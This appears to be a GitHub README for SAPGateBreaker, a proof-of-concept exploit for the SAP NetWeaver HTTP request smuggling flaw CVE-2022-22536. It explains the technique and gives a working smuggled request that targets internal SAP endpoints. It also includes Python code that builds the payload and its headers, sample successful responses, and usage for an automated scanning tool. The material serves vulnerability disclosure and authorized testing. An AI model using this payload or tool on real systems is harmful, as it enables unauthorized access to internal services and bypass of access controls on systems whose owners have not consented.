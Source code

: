 # CVE-2022-22536: HTTP Smuggling Through SAP's Front Door
SAP NetWeaver Application Server ABAP, SAP NetWeaver Application Server Java, ABAP Platform, SAP Content Server 7.53 and SAP Web Dispatcher are vulnerable for request smuggling and request concatenation. An unauthenticated attacker can prepend a victim's request with arbitrary data. This way, the attacker can execute functions impersonating the victim or poison intermediary Web caches. A successful attack could result in complete compromise of Confidentiality, Integrity and Availability of the system.

# SAPGateBreaker-Exploit
SAPGateBreaker is a PoC exploit for CVE-2022-22536, a critical HTTP Request Smuggling vulnerability in SAP NetWeaver. It demonstrates how to bypass ACLs by desynchronizing request parsing between ICM and backend services using crafted Content-Length-based payloads.

![Image](https://github.com/user-attachments/assets/21ad047f-ab0d-4080-88a2-3e863a4b1d68)
![Image](https://github.com/user-attachments/assets/6ddc53aa-346b-4b2d-9e4e-25072866cb11)

The vulnerability identified as CVE-2022-22536 represents a critical flaw in SAP NetWeaver Application Server, exposing installations to HTTP Request Smuggling attacks. This vulnerability, with a CVSS score of 9.8, affects both Java and ABAP stacks, allowing attackers to bypass access control mechanisms and interact with internal applications as though they were on the internal network.

**Understanding HTTP Request Smuggling**

HTTP Request Smuggling (HRS) is an advanced technique that exploits discrepancies in how different components of a web infrastructure (typically proxies, load balancers, and backend servers) interpret the boundaries between HTTP requests. By manipulating headers like `Content-Length` and `Transfer-Encoding`, an attacker can "smuggle" a malicious request that is desynchronized from what the backend server expects.

In essence, when a front-end and a back-end server disagree on where one request ends and the next begins, an attacker can inject a second, hidden request that will be processed with elevated trust. This often results in security bypasses such as WAF evasion, cache poisoning, or ACL circumvention.

**The Nature of CVE-2022-22536**

SAP’s ICM (Internet Communication Manager) improperly parses crafted HTTP requests, enabling a smuggled request to reach internal services. This is particularly impactful in segmented architectures, where direct access to internal services is restricted. Exploiting this vulnerability allows attackers to issue requests that appear to originate from the trusted internal network.

The vulnerability manifests when a payload abuses conflicting interpretations of the end of an HTTP request. This commonly involves injecting a `Transfer-Encoding: chunked` header or manipulating the `Content-Length` field to cause the desynchronization.

**Initial Payload Failures and Chunked Encoding Rejection**

During testing, payloads leveraging canonical chunked smuggling techniques led to `408 Request Timeout` responses from SAP ICM. This behavior indicated that SAP's HTTP stack does not support `Transfer-Encoding: chunked` in the expected manner, preventing traditional chunked-based desynchronization.

As a result, the exploit methodology shifted to using `Content-Length` headers for desynchronization. A crafted request with an empty chunked payload followed by a valid secondary HTTP request successfully bypassed request boundaries. This alternate strategy proved effective in bypassing internal access controls.

**Final Exploit Strategy and Code Implementation**

The working exploit sends a POST request to a public endpoint (`/sap/admin/public/default.html`) with a `Content-Length` header, followed by an embedded GET request that is intended to reach an internal resource.

```http
POST /sap/admin/public/default.html HTTP/1.1
Host: 172.32.22.7:50000
Authorization: Basic YTph
Cookie: saplb_*=(J2EE7364720)7364750
Content-Type: application/json
Content-Length: 128

0

GET /sap/bc/webdynpro/sap/appl_soap_management HTTP/1.1
Host: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Connection: close
```

This results in a successful internal access:

```http
HTTP/1.1 200 OK
Server: SAP NetWeaver Application Server
Content-Length: 4465
Content-Type: text/html
Connection: Keep-Alive
```

The implementation iterates through a list of internal SAP URLs that are normally restricted. A comparison is made between the status code received via direct access and the one received when accessed through the smuggled request. If the internal access returns 200 (while direct access returns 403 or 404), it indicates that the smuggling technique successfully bypassed internal access controls.

The logic for building the payload:

```python
def build_smuggled_request(path):
    return f"0\r\n\r\nGET {path} HTTP/1.1\r\nHost: 127.0.0.1\r\nX-Forwarded-For: 127.0.0.1\r\nConnection: close\r\n\r\n"
```

The attack is executed using a crafted POST request containing the smuggled payload:

```python
headers = {
    "Host": f"{host}:{port}",
    "Authorization": "Basic YTph",
    "Cookie": "saplb_*=(J2EE7364720)7364750",
    "Content-Type": "application/json",
    "Content-Length": str(len(body.encode("utf-8")))
}
```

**Observed Results**

In multiple test cases, endpoints such as `/sap/public/bc/icf/info` or `/heapdump/`, which normally returned `403 Forbidden` or `404 Not Found`, responded with `200 OK` when accessed through the smuggled request. This demonstrates a successful circumvention of SAP’s access controls.

The tool’s output included both sent payloads and response headers, enabling precise forensic validation:

```
>>> Sent Payload:
POST /sap/admin/public/default.html HTTP/1.1
Host: 172.32.22.7:50000
...

>>> Received Response:
HTTP/1.1 200 OK
Server: SAP NetWeaver Application Server
...
```
Normal Request:

![Image](https://github.com/user-attachments/assets/b28eacb9-e447-4c7e-a468-14fcbff40e1f)

![Image](https://github.com/user-attachments/assets/ac2c80f2-aa8a-4634-87f3-1dd14e90c6a2)

Exploit Request:

![Image](https://github.com/user-attachments/assets/b346b508-2ca1-4091-98f1-9e80a02eb27b)

![Image](https://github.com/user-attachments/assets/cae32023-d9bf-4cbb-ba96-3855e8e2d63c)

**Conclusion**

CVE-2022-22536 highlights the persistent threat posed by HTTP Request Smuggling in modern enterprise software stacks. The presented proof-of-concept is a demonstration of the underlying vulnerability and serves as a tool for validation and defense testing.

Administrators are strongly advised to apply SAP security updates and implement appropriate reverse proxy protections to prevent malformed HTTP request propagation.

More details on CVE-2022-22536 can be found at:
https://nvd.nist.gov/vuln/detail/CVE-2022-22536

SAP Security Note:
https://launchpad.support.sap.com/#/notes/3123396

**SAPGateBreaker Exploit**

SAPGateBreaker is a standalone Python tool that automates testing for CVE-2022-22536, a critical HTTP Request Smuggling vulnerability in SAP NetWeaver Application Server.

---

**Usage**

```bash
python3 sapgatebreaker.py -u http://<target-host>:<port> [--verbose]
```

**Arguments:**

- `-u`, `--url`: Target URL (e.g., `http://172.32.22.7:50000`)
- `-v`, `--verbose`: Enables detailed header and body output for each request and response

**Features:**

- Detects SAP NetWeaver version via HTTP header inspection
- Builds desynchronized HTTP request payloads for internal access testing
- Compares direct vs. smuggled responses to identify bypasses
- Logs all data to `poc.txt` for further analysis

**Disclaimer**

This tool is intended for educational and authorized penetration testing only. Unauthorized use against systems without explicit permission is strictly prohibited and may violate applicable laws.

